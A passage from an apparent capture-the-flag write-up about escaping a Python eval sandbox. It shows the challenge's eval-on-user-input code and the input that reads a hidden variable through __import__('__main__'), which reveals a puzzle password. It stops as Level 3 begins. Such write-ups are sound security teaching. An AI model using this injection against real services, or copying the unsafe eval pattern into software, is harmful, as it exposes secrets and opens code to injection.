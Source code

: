 ```python
result = eval(answer, {})

if result == solution:
    print(f"{result}, correct!  The password is '{password}'.")
else:
    print(f"Result: {result}.  The correct answer was {solution}.")

```

Checking for the current script, we can see that the file is removed, the only way to get the flag is:

- A dangling file descriptor to the file (since it is not closed, maybe we can reach it somehow. Very unlikely tbh).
- Access the solution variable.


We could access the solution variable fron the eval easily, but this second argument "{}" is setting the globals (and by default the locals) of the eval to None, therefore, the eval will be executing in a clean (in terms of variables) environment.

But what if we could load the current module and access to its variables? I reached that conclusion by looking to the different [builtin functions](https://docs.python.org/3/library/functions.html) that we can access. I saw getattr, and I started thinking about reaching other classes attributes. So the main issue is... How can I reach the current module? 

I tried to import the current file using \_\_import\_\_(problem.py) but it says "ModuleNotFoundError: No module named 'problem'", so I searched for other methods and checking for different methods, using \_\_main\_\_ I reached the current class. 


```python
# Level 2 input
getattr(__import__('problem.py'),'solution')

# Output
Traceback (most recent call last):
  File "problem.py", line 8, in <module>
    result = eval(answer, {})
  File "<string>", line 1, in <module>
ModuleNotFoundError: No module named 'problem'


# Level 2 input
getattr(__import__('__main__'),'solution')

# Output
3055728705, correct!  The password is 'E46Dnqb5enAMgGArbruu'.

```

### Level 3

Let's try the same again, start by enumerating the directory and get the problem.py file:
